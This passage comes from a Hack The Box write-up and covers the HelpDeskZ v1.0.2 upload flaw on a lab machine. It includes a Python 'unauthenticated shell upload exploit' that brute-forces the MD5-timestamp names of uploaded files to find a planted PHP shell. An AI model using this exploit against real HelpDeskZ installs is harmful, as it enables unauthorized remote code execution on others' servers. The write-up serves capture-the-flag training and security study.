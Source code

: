 Two things worth nothing here. First of all, the final upload directory ends with `tickets/`. Second, regardless of the file verification results, the submission will ALWAYS progress to step 2 after the file has been uploaded.

In the words of POTUS: Fake News!

...

Where is the upload directory? If I have to guess, I would say the actual upload directory is like this:

```
http://10.10.10.121/support/uploads/tickets/
```

_I cheated a bit. I actually enumerated the site for directories at a deeper level._ :laughing:

Now, let's re-purpose the exploit code and make it more adaptive to file extensions.

<div class="filename"><span>exploit.py</span></div>

```python
'''
Usage: python exploit.py http://10.10.10.121/support/uploads/tickets/ test.php
'''

import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]
extension = fileName.split(".")[-1]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl + md5hash + '.' + extension
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```


[1]: https://www.hackthebox.eu/home/machines/profile/170
[2]: https://www.hackthebox.eu/home/users/profile/3079
[3]: https://www.hackthebox.eu/